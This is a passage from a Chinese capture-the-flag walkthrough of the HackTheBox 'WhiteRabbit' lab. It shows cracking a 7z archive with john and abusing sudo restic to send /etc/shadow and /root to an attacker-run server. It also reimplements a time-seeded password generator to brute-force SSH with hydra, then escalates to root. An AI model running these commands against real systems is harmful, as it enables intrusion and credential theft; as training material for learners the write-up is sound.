Solid = +
Blocks = 1

    
Enter password (will not be echoed):
ERROR: Data Error in encrypted file. Wrong password? : bob
ERROR: Data Error in encrypted file. Wrong password? : bob.pub
ERROR: Data Error in encrypted file. Wrong password? : config
             
Sub items Errors: 3

Archives with Errors: 1

Sub items Errors: 3
```

这里使用了`7zAES`加密，`bob`为私钥，`bob.pub`为公钥，`config`为配置文件

使用`john`工具爆破密码

```bash
$ 7z2john backup/dev/shm/bob/ssh/bob.7z > bob.hash
$ cat bob.hash
bob.7z:$7z$2$19$0$$8$61d81f6f9997419d0000000000000000$4049814156$368$365$7295a784b0a8cfa7d2b0a8a6f88b961c8351682f167ab77e7be565972b82576e7b5ddd25db30eb27137078668756bf9dff5ca3a39ca4d9c7f264c19a58981981486a4ebb4a682f87620084c35abb66ac98f46fd691f6b7125ed87d58e3a37497942c3c6d956385483179536566502e598df3f63959cf16ea2d182f43213d73feff67bcb14a64e2ecf61f956e53e46b17d4e4bc06f536d43126eb4efd1f529a2227ada8ea6e15dc5be271d60360ff5c816599f0962fc742174ff377e200250b835898263d997d4ea3ed6c3fc21f64f5e54f263ebb464e809f9acf75950db488230514ee6ed92bd886d0a9303bc535ca844d2d2f45532486256fbdc1f606cca1a4680d75fa058e82d89fd3911756d530f621e801d73333a0f8419bd403350be99740603dedff4c35937b62a1668b5072d6454aad98ff491cb7b163278f8df3dd1e64bed2dac9417ca3edec072fb9ac0662a13d132d7aa93ff58592703ec5a556be2c0f0c5a3861a32f221dcb36ff3cd713$399$00

$ john --show bob.hash 
bob.7z:1q2w3e4r5t6y
1 password hash cracked, 0 left
```

获取到密码为`1q2w3e4r5t6y`，解压文件

```bash
$ 7z x backup/dev/shm/bob/ssh/bob.7z 
```

使用解压出的秘钥进行登录，成功登录

```bash
$ cat config
Host whiterabbit
  HostName whiterabbit.htb
  Port 2222
  User bob

$ ssh -i bob bob@whiterabbit.htb -p 2222
The authenticity of host '[whiterabbit.htb]:2222 ([10.10.11.63]:2222)' can't be established.
ED25519 key fingerprint is SHA256:jWKKPrkxU01KGLZeBG3gDZBIqKBFlfctuRcPBBG39sA.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[whiterabbit.htb]:2222' (ED25519) to the list of known hosts.
Welcome to Ubuntu 24.04 LTS (GNU/Linux 6.8.0-57-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Last login: Mon Apr  7 15:50:37 2025 from 10.10.16.80

bob@ebdce80611e9:~$ hostname
ebdce80611e9
bob@ebdce80611e9:~$ uname -a
Linux ebdce80611e9 6.8.0-57-generic #59-Ubuntu SMP PREEMPT_DYNAMIC Sat Mar 15 17:40:59 UTC 2025 x86_64 x86_64 x86_64 GNU/Linux
```

但是看着是在容器里面，那么得尝试逃逸到宿主机。

```bash
bob@ebdce80611e9:~$ cat /etc/hosts
127.0.0.1       localhost
::1     localhost ip6-localhost ip6-loopback
fe00::  ip6-localnet
ff00::  ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
172.17.0.2      ebdce80611e9
```

`172.17.0.0/24`是`Docker`默认子网网桥，因此处于非特权容器。

查看`sudo`权限

```bash
bob@ebdce80611e9:~$ sudo -l
Matching Defaults entries for bob on ebdce80611e9:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User bob may run the following commands on ebdce80611e9:
    (ALL) NOPASSWD: /usr/bin/restic
```

## 通过Restic获取敏感文件逃逸到宿主机

可以以任何权限运行`Restic`，并且无需密码。那么可以尝试在攻击机开启一个`Restic`服务，让`Bob`将敏感文件备份到攻击机，[下载地址](https://github.com/restic/rest-server/releases/download/v0.12.1/rest-server_0.12.1_linux_amd64.tar.gz)

```bash
$ tar -zxvf rest-server_0.12.1_linux_amd64.tar.gz
$ cd rest-server_0.12.1_linux_amd64
$ chmod +x rest-server 
$ mkdir -p ./restic_repo/test	# 创建备份库
$ ./restic_0.16.4_linux_amd64 init -r ./restic/rest-server_0.12.1_linux_amd64/restic_repo/test	# 初始化
$ ./rest-server --path ./restic_repo --no-auth --listen :23456 
Data directory: ./restic_repo
Authentication disabled
Private repositories disabled
start server on :23456
```

切换到容器内

```bash
bob@ebdce80611e9:~$ sudo restic backup -r rest:http://10.10.16.86:23456/test /etc/shadow
repository 611ac403 opened (version 2, compression level auto)
created new cache in /root/.cache/restic
no parent snapshot found, will read all files
[0:00]          0 index files loaded

Files:           1 new,     0 changed,     0 unmodified
Dirs:            1 new,     0 changed,     0 unmodified
Added to the repository: 1.405 KiB (940 B stored)

processed 1 files, 737 B in 0:02
snapshot 0ed726a0 saved
```

到攻击机读取，发现成功读取

```bash
$ ./restic_0.16.4_linux_amd64 -r ./restic/rest-server_0.12.1_linux_amd64/restic_repo/test dump latest /etc/shadow
enter password for repository: 
repository 611ac403 opened (version 2, compression level auto)
created new cache in /home/kali/.cache/restic
[0:00] 100.00%  1 / 1 index files loaded
root:*:19936:0:99999:7:::
daemon:*:19936:0:99999:7:::
bin:*:19936:0:99999:7:::
sys:*:19936:0:99999:7:::
sync:*:19936:0:99999:7:::
games:*:19936:0:99999:7:::
man:*:19936:0:99999:7:::
lp:*:19936:0:99999:7:::
mail:*:19936:0:99999:7:::
news:*:19936:0:99999:7:::
uucp:*:19936:0:99999:7:::
proxy:*:19936:0:99999:7:::
www-data:*:19936:0:99999:7:::
backup:*:19936:0:99999:7:::
list:*:19936:0:99999:7:::
irc:*:19936:0:99999:7:::
_apt:*:19936:0:99999:7:::
nobody:*:19936:0:99999:7:::
ubuntu:!:19936:0:99999:7:::
systemd-network:!*:19965::::::
systemd-timesync:!*:19965::::::
messagebus:!:19965::::::
systemd-resolve:!*:19965::::::
sshd:!:19965::::::
bob:$y$j9T$dC8deJ6oyvhG7RBktETA3/$VtU7l9Xdd6ADMrq64PBV2Ev68xpYQ9IDycSiHL7v9h7:19965:0:99999:7:::
```

然后备份`/root`目录并读取

```bash
bob@ebdce80611e9:~$ sudo restic backup -r rest:http://10.10.16.86:23456/test /root
$ ./restic_0.16.4_linux_amd64 -r ./restic/rest-server_0.12.1_linux_amd64/restic_repo/test ls latest              
repository 611ac403 opened (version 2, compression level auto)
[0:00] 100.00%  2 / 2 index files loaded
snapshot bbe202ec of [/root] filtered by [] at 2025-04-07 16:25:00.235977286 +0000 UTC):
/root
/root/.bash_history
/root/.bashrc
/root/.cache
/root/.profile
/root/.ssh
/root/morpheus
/root/morpheus.pub
```

这里的`/root`是宿主机的root目录，可以尝试ssh登录

```bash
$chmod 600 morpheus
$ ssh -i morpheus morpheus@whiterabbit.htb
Welcome to Ubuntu 24.04.2 LTS (GNU/Linux 6.8.0-57-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Mon Apr 7 16:30:39 2025 from 10.10.16.86
morpheus@whiterabbit:~$
```

读取user.txt获取flag

## 逆向密码生成器爆破出密码提权

接下来要尝试获取root权限，考虑数据库查看到的密码生成器`/opt/neo-password-generator/neo-password-generator`，下载下来分析

```bash
$ scp -i morpheus morpheus@whiterabbit.htb:/opt/neo-password-generator/neo-password-generator .
```

放到IDA分析



`generate_password`函数用当前时间戳作为函数，生成20位密码

```c
unsigned __int64 __fastcall generate_password(unsigned int a1)
{
  int i; // [rsp+14h] [rbp-2Ch]
  char s[24]; // [rsp+20h] [rbp-20h] BYREF
  unsigned __int64 v4; // [rsp+38h] [rbp-8h]

  v4 = __readfsqword(0x28u);
  srand(a1);
  for ( i = 0; i <= 19; ++i )
    s[i] = aAbcdefghijklmn[rand() % 62];
  s[20] = 0;
  puts(s);
  return v4 - __readfsqword(0x28u);
}
```

我们只需要还原程序，然后在`2024-08-30 14:40:42`的接下来1000毫秒生成密码字典去爆破，就能拿到`neo`的密码。

经过还原修改后如下

```c
#include <stdio.h>
#include <stdlib.h>
#include <sys/time.h>

const char charset[] = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789";

void generate_password(unsigned int seed) {
    char password[24];
    srand(seed);
    for (int i = 0; i <= 19; ++i) {
        password[i] = charset[rand() % 62];
    }
    password[20] = '\0';
    puts(password);
}

int main() {
    long timestamp = 1725028842;
    for(int ms = 0; ms < 1000; ms++) {
        unsigned int seed = (timestamp * 1000) + ms;
        generate_password(seed);
    }
    return 0;
}
```

编译运行，用`hydra`进行爆破

```bash
$ gcc -static -o pass passwd.c
$ ./pass > password.txt
$ hydra -l neo -P password.txt ssh://whiterabbit.htb          
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-04-07 13:05:58
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 1000 login tries (l:1/p:1000), ~63 tries per task
[DATA] attacking ssh://whiterabbit.htb:22/
[22][ssh] host: whiterabbit.htb   login: neo   password: WBSxhWgfnMiclrV4dqfj
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 2 final worker threads did not complete until end.
[ERROR] 2 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-04-07 13:06:08
```

获取到密码为`WBSxhWgfnMiclrV4dqfj`，登录账户

```bash
morpheus@whiterabbit:~$ su neo
Password: 

neo@whiterabbit:/home/morpheus$ id
uid=1000(neo) gid=1000(neo) groups=1000(neo),27(sudo)

neo@whiterabbit:/home/morpheus$ sudo -l
[sudo] password for neo: 
sudo: 1 incorrect password attempt

neo@whiterabbit:/home/morpheus$ sudo -l
[sudo] password for neo: 
Matching Defaults entries for neo on whiterabbit:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User neo may run the following commands on whiterabbit:
    (ALL : ALL) ALL
    
neo@whiterabbit:/home/morpheus$ sudo -i

root@whiterabbit:~#
```

读取`root.txt`即可获取flag

# 总结

​	这个靶场感觉真的很难，首先巩固了信息收集技巧，不断地去拓扑，获取更多信息，增大攻击面。然后是这次的Web漏洞，并不是常规的直接进行sql注入，而是需要去分析服务端执行过程，有点像白盒。也是第一次使用flask代理sqlmap，上手实操了一次，也疏通了以前对于工具使用固化的地方，可以说是开拓了新思路。后面获取服务器的权限，容器内和逃逸都利用了`Restic`，也让我感觉到了其实漏洞并不是固化的东西，巧妙的思路最重要。然后就是最后的提权操作，纯逆向小白（），也是让我体验了一把逆向的乐趣。

